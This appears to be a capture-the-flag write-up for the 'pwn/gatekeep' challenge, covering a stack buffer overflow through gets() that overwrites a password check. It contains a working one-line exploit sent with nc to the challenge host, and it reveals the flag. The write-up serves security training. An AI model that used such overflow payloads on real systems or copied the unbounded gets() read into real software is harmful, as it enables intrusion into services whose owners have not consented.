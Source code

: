 ### **Title:** pwn/gatekeep

**Hint:** Straight forward buffer overflow

**Solution:**
```
int check(){
    char input[15];
    char pass[10];
    int access = 0;
....
    printf("Password:\n");
    gets(input);
    if(strcmp(input, pass)) {
        printf("I swore that was the right password ...\n");
```
For this piece of code we can see that after `input`, `pass` and `access` were initialized and `gets()` is used to get the `input`.\
If we overflow `input` we can overwrite `pass` and `access` to pass the `if(access)` to get our flag.

**Exploit:** `python3 -c 'print(80*"a")' | nc lac.tf 31121`

**Flag:** `lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}`
